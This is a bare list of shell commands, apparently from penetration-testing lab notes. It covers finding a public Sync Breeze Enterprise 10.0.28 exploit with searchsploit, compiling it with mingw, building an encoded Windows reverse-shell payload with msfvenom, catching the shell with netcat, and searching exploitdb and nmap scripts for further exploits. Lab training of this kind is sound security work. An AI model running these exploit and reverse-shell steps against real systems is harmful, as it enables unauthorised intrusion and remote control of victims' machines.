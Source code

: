 searchsploit "Sync Breeze Enterprise 10.0.28"
---------------------------------------------------------------------
searchsploit -m 42341
---------------------------------------------------------------------
apt install mingw-w64
---------------------------------------------------------------------
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe
---------------------------------------------------------------------
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
---------------------------------------------------------------------
ls -lah
---------------------------------------------------------------------
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
---------------------------------------------------------------------
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
---------------------------------------------------------------------
ls -lah
---------------------------------------------------------------------
wine syncbreeze_exploit.exe
---------------------------------------------------------------------
i686-w64-mingw32-gcc  42341.c -o syncbreeze_exploit.exe -lws2_32
---------------------------------------------------------------------
nc -lvp 443
---------------------------------------------------------------------
wine syncbreeze_exploit.exe
---------------------------------------------------------------------
 apt update &&  apt install exploitdb
 ---------------------------------------------------------------------
 ls -1 /usr/share/exploitdb/
 ---------------------------------------------------------------------
 ls -1 /usr/share/exploitdb/exploits
---------------------------------------------------------------------
searchsploit
 ---------------------------------------------------------------------
searchsploit remote smb microsoft windows 
---------------------------------------------------------------------
searchsploit -m windows/remote/48537.py
---------------------------------------------------------------------
searchsploit -m 42031
---------------------------------------------------------------------
grep Exploits i /usr/share/nmap/scripts/*.nse
---------------------------------------------------------------------
 nmap --script-help=clamav-exec.nse
---------------------------------------------------------------------
